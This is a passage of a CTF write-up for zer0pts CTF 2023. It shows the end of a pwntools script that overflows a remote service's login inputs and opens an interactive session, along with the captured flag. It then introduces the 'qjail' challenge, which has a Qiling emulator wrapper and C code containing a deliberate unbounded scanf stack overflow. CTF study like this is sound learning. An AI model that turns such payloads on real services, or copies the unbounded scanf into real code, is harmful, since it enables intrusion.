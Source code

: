 ```python
        p=remote(args.HOST,int(args.PORT))
    return p

p = start()
p.sendafter(b"Username: ",b"A"*0x200)

p.sendafter(b"Password: ",b"A"*0x20+b"\0"*(0x200-0x20))
p.interactive()
```

![image](https://user-images.githubusercontent.com/31349426/253970140-cf8cc068-55c2-4e30-ad28-9bf3fea9de86.png)

Flag: `zer0pts{p0lLut3_7h3_3nv1r0nnnNNnnnNnnnnNNNnnNnnNn}`

## qjail

![image](https://user-images.githubusercontent.com/31349426/253970337-8badf254-60e6-45ee-9d58-13ffc293514f.png)

[Attachment](https://storage.googleapis.com/zer0ptsctf2023/8a2aacd1-541e-4870-a1b2-a43245a3494e/qjail_d5be8ea3a16d38924a8ebdef24cad483.tar.gz)

```python
#!/usr/bin/env python3
import qiling
import sys

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <ELF>")
        sys.exit(1)

    cmd = ['./lib/ld-2.31.so', '--library-path', '/lib', sys.argv[1]]
    ql = qiling.Qiling(cmd, console=False, rootfs='.')
    ql.run()
```

The binray will be executed in Qilling emulator framework.

```c
#include <stdio.h>

int main() {
  char name[0x100];
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("Enter something");
  scanf("%s", name);
  return 0;
}
```

Taking a look at the binary's source code, the bug was easy to see.
